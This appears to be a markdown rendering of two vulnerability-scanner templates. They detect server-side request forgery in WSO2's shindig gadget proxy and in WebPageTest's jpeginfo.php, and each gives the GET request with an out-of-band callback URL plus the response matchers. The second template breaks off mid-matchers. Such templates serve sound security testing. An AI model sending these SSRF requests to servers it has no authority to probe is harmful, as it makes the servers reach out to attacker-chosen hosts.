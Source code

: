 ## Description

- WSO2 prior to version 5.8.0 is susceptible to a server-side request forgery vulnerability. This vulnerability can be exploited by misusing the UI gadgets loading capability of the shindig web application. An attacker can alter a specific URL in the request causing the server to initiate a GET request to the altered URL.

- severity - medium
- tags - ssrf,wso2,shindig

## Requests

- Method - GET

### URL

- {{BaseURL}}/shindig/gadgets/proxy?container=default&url=http://oast.pro

### Matchers

**Type - word**

- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

---

# Web Page Test - Server Side Request Forgery (SSRF)

- severity - high
- tags - ssrf,webpagetest,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/jpeginfo/jpeginfo.php?url={{interactsh-url}}

### Matchers

**Type - word**

- words
  1. File is not a JPEG Image

**Type - word**
